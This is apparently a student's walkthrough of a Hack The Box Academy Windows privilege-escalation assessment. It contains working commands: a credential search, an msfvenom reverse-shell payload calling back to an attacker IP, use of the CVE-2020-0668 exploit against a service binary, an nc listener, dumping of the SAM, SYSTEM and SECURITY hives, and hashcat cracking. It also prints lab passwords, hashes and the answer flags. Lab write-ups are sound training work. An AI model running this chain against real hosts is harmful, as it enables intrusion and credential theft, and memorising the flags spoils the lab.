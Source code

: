 # Skills Assessment 2

As an add-on to their annual penetration test, the INLANEFREIGHT organization has asked you to perform a security review of their standard Windows 10 gold image build currently in use by over 1,200 of their employees worldwide. The new CISO is worried that best practices were not followed when establishing the image baseline, and there may be one or more local privilege escalation vectors present in the build. Above all, the CISO wants to protect the company's internal infrastructure by ensuring that an attacker who can gain access to a workstation (through a phishing attack, for example) would be unable to escalate privileges and use that access move laterally through the network. Due to regulatory requirements, INLANEFREIGHT employees do not have local administrator privileges on their workstations.

You have been granted a standard user account with RDP access to a clone of a standard user Windows 10 workstation with no internet access. The client wants as comprehensive an assessment as possible (they will likely hire your firm to test/attempt to bypass EDR controls in the future); therefore, Defender has been disabled. Due to regulatory controls, they cannot allow internet access to the host, so you will need to transfer any tools over yourself.

Enumerate the host fully and attempt to escalate privileges to administrator/SYSTEM level access.

## Questions

<details>

<summary>Initial Enumeration</summary>

### Password Enumeration

```
PS C:\> findstr /SIM /C:"iamtheadministrator" *.txt *.ini *.cfg *.config *.xml
Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Windows\Panther\unattend.xml
FINDSTR: Cannot open Windows\Panther\UnattendGC\diagerr.xml
FINDSTR: Cannot open Windows\Panther\UnattendGC\diagwrn.xml
FINDSTR: Cannot open Windows\PLA\System\System Diagnostics.xml
FINDSTR: Cannot open Windows\PLA\System\System Performance.xml
FINDSTR: Cannot open Windows\System32\LogFiles\setupcln\diagerr.xml
FINDSTR: Cannot open Windows\System32\LogFiles\setupcln\diagwrn.xml
FINDSTR: Cannot open Windows\System32\Sysprep\Panther\diagerr.xml
FINDSTR: Cannot open Windows\System32\Sysprep\Panther\diagwrn.xml
FINDSTR: Cannot open Windows\WinSxS\amd64_microsoft-windows-u..userpredictionmodel_31bf3856ad364e35_10.0.18362.1_none_5f36214c9498167b\SBCModel.txt
```

We found the unattend.xml file which contains the credentials

![](<../../.gitbook/assets/image (99).png>)

<pre><code><strong>iamtheadministrator:Inl@n3fr3ight_sup3rAdm1n!
</strong></code></pre>

</details>



<details>

<summary>Privilege escalation</summary>

The host seems to be vulnerable to CVE-2020-0668

![](<../../.gitbook/assets/image (115).png>)

To exploit this vulnerability first find and verify that we have a read and write access to the binary running in SYSTEM context.

```
PS C:\Users\htb-student\Desktop> icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"     C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We can see that Users has a following output which could be exploitable.

```
BUILTIN\Users:(I)(RX)
```

Next Generating the reverse shell payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=7890 -f exe -o script.exe
```

make a copy of the payload **(one wil be corrupted in the first attempt)**

![](<../../.gitbook/assets/image (125).png>) **(make sure to rename them to the target binary or mainenanceservice.exe)**

executing the exploit along with the first reverse shell payload **(make sure that the files passed in are all full path!!)**

<pre><code><strong>.\&#x3C;exploit.exe> .\&#x3C;reverse shell.exe> "&#x3C;system context binary .exe>
</strong>.\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
</code></pre>

We can see the following that the file has changed it's permissions

```
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          ACADEMY-WINLPE-\htb-student:(I)(F)
                                                                          ACADEMY-WINLPE-\mrb3n:(I)(F)
```

Change the session to cmd and copy the 2nd copy of the reverse shell file using following command

```
cmd
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Desktop>copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
        1 file(s) copied.
```

**Lastly, start the service and wait for the shell to arrive**

```
C:\Users\htb-student\Desktop>net start MozillaMaintenance
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```

```
rlwrap nc -lvnp 7890
listening on [any] 7890 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.250.154] 49681
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
el3vatEd_1nstall$_v3ry_r1sky
C:\Users\Administrator\Desktop>
```

</details>



<details>

<summary>Post exploitation</summary>

dump **SAM SYSTEM** and **SECURITY** hives

```
C:\Users\Administrator\Desktop>reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\Users\Administrator\Desktop>reg.exe save hklm\system C:\system.save
reg.exe save hklm\system C:\system.save
The operation completed successfully.

C:\Users\Administrator\Desktop>reg.exe save hklm\security C:\security.save
reg.exe save hklm\security C:\security.save
The operation completed successfully.
```

Move them to attack machine and crack them locally

```
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xfab4b2e32a415ea36f846b9408aa69af
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aad797e20ba0675bbcb3e3df3319042c:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6b4dacb8dbcf0533bbe34dc66cc0fb8848b0e8ba
dpapi_userkey:0xa61d37e2c548f9206031efff6633f3fb836dbdd6
[*] NL$KM 
 0000   84 AF 72 07 AA 56 82 65  33 F2 C4 60 C3 72 AF C7   ..r..V.e3..`.r..
 0010   E3 0B 71 ED C9 AF 49 1E  89 E5 DA A1 07 5E 7F 88   ..q...I......^..
 0020   65 EC 26 AF 2D A9 2A DC  9C E6 36 7D 9A 2F D9 F6   e.&.-.*...6}./..
 0030   57 44 B6 06 A6 57 7E 29  CD 30 B2 8F 7F 86 CB 47   WD...W~).0.....G
NL$KM:84af7207aa56826533f2c460c372afc7e30b71edc9af491e89e5daa1075e7f8865ec26af2da92adc9ce6367d9a2fd9f65744b606a6577e29cd30b28f7f86cb47
[*] Cleaning up...
```

```
wksadmin #seems to be our target.
```

hash cracking&#x20;

```
echo "wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::" > hash
hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt

5835048ce94ad0564e29a924a03510ef:password1
```

</details>

Find left behind cleartext credentials for the iamtheadministrator domain admin account.



Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop

* ```
  el3vatEd_1nstall$_v3ry_r1sky
  ```

There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.

* ```
  5835048ce94ad0564e29a924a03510ef:password1
  ```

